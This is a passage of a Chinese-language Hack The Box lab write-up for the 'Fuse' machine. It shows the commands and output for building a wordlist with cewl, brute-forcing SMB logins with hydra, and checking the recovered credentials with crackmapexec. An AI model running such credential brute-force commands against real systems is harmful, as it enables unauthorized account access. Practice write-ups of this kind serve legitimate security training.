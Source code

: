 # search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A6C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v3839

# numResponses: 1

```

## smb爆破

用cewl命令从web上收集信息作为密码字典，爆破上面的用户列表
```
┌──(root💀kali)-[~/htb/Fuse]
└─# cewl --with-numbers -w passwd.txt http://fuse.fabricorp.local/papercut/logs/html/index.htm
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
WARNING: Nokogiri was built against libxml version 2.9.10, but has dynamically loaded 2.9.12

```

现在我们收集到了一个密码字典passwd.txt

使用hydra爆破smb密码
```
┌──(root💀kali)-[~/htb/Fuse]
└─# hydra -L user -P passwd.txt 10.10.10.193 smb
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-08 00:31:27
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 1183 login tries (l:7/p:169), ~1183 tries per task
[DATA] attacking smb://10.10.10.193:445/
[445][smb] Host: 10.10.10.193 Account: tlavel Valid password, password expired and must be changed on next logon
[445][smb] host: 10.10.10.193   login: tlavel   password: Fabricorp01
[445][smb] Host: 10.10.10.193 Account: bhult Valid password, password expired and must be changed on next logon
[445][smb] host: 10.10.10.193   login: bhult   password: Fabricorp01
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-08 01:07:23

```

发现两个账户凭据：
> tlavel：Fabricorp01
> bhult：Fabricorp01

尝试登陆smb，提示密码过期
```
┌──(root💀kali)-[~/htb/Fuse]
└─# crackmapexec smb 10.10.10.193 -u 'tlavel' -p 'Fabricorp01' --shares
SMB         10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE 
SMB         10.10.10.193    445    FUSE             [-] Error enumerating shares: SMB SessionError: 0x5b
